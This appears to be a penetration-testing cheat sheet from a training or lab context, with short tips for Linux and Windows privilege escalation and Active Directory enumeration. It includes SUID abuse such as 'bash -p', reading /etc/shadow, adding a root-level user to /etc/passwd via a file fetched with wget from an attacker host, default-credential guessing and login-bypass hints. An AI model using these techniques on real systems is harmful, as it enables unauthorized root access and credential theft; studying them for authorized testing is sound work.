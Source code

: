 ## General tips
- If Linpeas cannot found vulnerabilties, use linux-exploit-suggester (https://github.com/mzet-/linux-exploit-suggester)
- /dev/null is the standard Linux device where you send output that you want ignored.
- if mount point is needed, try to use /etc , so we can access /etc/passwd
- /tmp directory has all permission to create or delete any file, use it
- if SUID is set ofr a binary program and to GTFObins requires LFILE=file_to_read, we can set LFILE=/etc/shadow, and unhash the password and do a 'su' or switch user.
- If "/bin/bash" has SUID set, user can execute “bash -p” and this should allow you to run the bash as root.
- If a user can run all command as root user, we can achieve root access by performing 'sudo su' or 'sudo bash'
- always read the command flags carefully i.e. under --help
![image](https://github.com/user-attachments/assets/4b28ef51-06ae-4acc-96e3-8bcb6552cee3)
![image](https://github.com/user-attachments/assets/24447d7f-6aa7-4668-9705-3e14157570c9)

- If program/exploit cannot run, try 'chmod +x exploit' or 'chmod 777 exploit'
- if '/bin/bash' doesnt work, try '/bin/sh'
- to run binary program, can specify '/home' instead of current directory '.'
- [if SUID bit set for cp, we can add a new user with root privileges to /etc/passwd file] to create new user(name: ignite) at end of /etc/passwd, first generate the $hash value first using 'openssl passwd -1 -salt ignite pass123'. Then insert $hash into 'ignite:$hash:0:0:root:/root:/bin/bash'. Then copy the passwd file back to victim machine (/etc) using 'wget -O passwd http://192.168.1.108:8000/passwd'. Then 'su ignite' password: 'pass123', 'whoami'.
- admin to give SUID permission to nano: 'chmod u+s /bin/nano'
- if WinPEAS failed i.e. Error, try using Seatbelt
- transfer nc from kali to windows: 'locate nc.exe' then host the folder that contains nc.exe
- For Linux, search for interesting files in /home, /opt, or /
- For Windows, search for interesting files in \Documents or \Desktop
- TRY CREDS EVERYWHERE!! try default passwords admin/admin ; root/root
- IF YOUR SHELLS AREN’T WORKING TRY DIFFERENT PORTS, ARCHITECTURES, AND ENCODINGS!!
- Aim old OS versions
- decode base64 hashes: `echo "xxxxxxxxxxxxx" | base64 -d`
- Domain Controller usually has port 88/TCP kerberos-sec
- For AD enumeration run `nmap -A 192.168.1.50 -Pn`, take note of the common name of the host in AD e.g. `ssl-cert: Subject: commonName=student.pentesting.local`
- For crackmapexec, if a command failed, try another protocol e.g. smb, winrm, etc
- Root of php web server
![image](https://github.com/user-attachments/assets/49a4e874-e58c-4c07-aa12-d403a44648e1)
- if HTTP request method return error e.e. 4xx, check to another method and try. If GET method fails, try POST method
- to bypass login page `google for default credentials for the web app` or `use XX(MYSQL) bypass login seclist`

## using RDP
`xfreerdp /u:nelly /p:nicole1 /v:192.168.190.210`

## MSFVenom
